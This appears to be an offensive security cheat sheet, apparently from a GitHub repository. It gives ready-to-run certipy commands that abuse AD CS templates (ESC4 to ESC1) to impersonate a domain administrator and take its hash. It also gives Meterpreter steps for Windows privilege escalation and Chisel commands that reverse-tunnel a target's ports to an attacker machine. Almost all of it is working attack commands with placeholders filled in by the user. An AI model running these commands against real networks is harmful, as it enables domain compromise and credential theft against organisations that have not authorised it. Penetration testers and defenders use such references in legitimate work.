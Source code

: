 ### ADCS
#### ADCS Certificate Exploits:
##### ESC4:
Collect vulnerable certificate templates
```
certipy find -u "<OWNED_USER>" -p "<PASSWORD>" -dc-ip "<DC_IP>" -vulnerable -enabled -stdout
```

Make template vuln to ESC1
```
certipy template -username <OWNED_USER@DOMAIN> -password <PASSWORD> -target-ip <DC_IP> -template '<TEMPLATE_NAME>' -save-old
```

Exploit ESC1
```
certipy req -username <OWNED_USER@DOMAIN> -password <PASSWORD> -target-ip <DC> -ca <CERTIFICATE_CA> -template '<TEMPLATE_NAME>' -upn administrator@corp.local
```

Restore config
```
certipy template -username <OWNED_USER@DOMAIN> -password <PASSWORD> -target-ip <DC_IP> -template '<TEMPLATE_NAME>' -configuration <BACKED_UP_CERT>.json
```

Get hash for administrator
```
certipy auth -pfx administrator.pfx
```

##### Windows Priv-Esc with Meterpreter Shell:
Using the current meterpreter shell, run the command "`background`" to background the session.
Get the session number using the command "`sessions`".
Use the post-exploitation module named "`multi/recon/local_exploit_suggester`" with the command "`use multi/recon/local_exploit_suggester`".
Set the session using "`set SESSION <session_number>`".
Run the exploit suggestor using "`run`".
Choose an exploit that is found to be vulnerable by copying the exploit path and type "`use <exploit_path>`".
Set the correct options using "`SHOW OPTIONS`" and then "`set <OPTION_NAME> <value>`".
Run the exploit using "exploit".

### Tunneling
#### Chisel Tunneling:
```
Attacker:       [./chisel<.exe> server -p <port to listen on> --reverse]
Target:         [./chisel.exe client <listener_ip>:<listener_port> R:<port_to_open_on_attacker_machine>:<target_ip>:<target_port>]
```
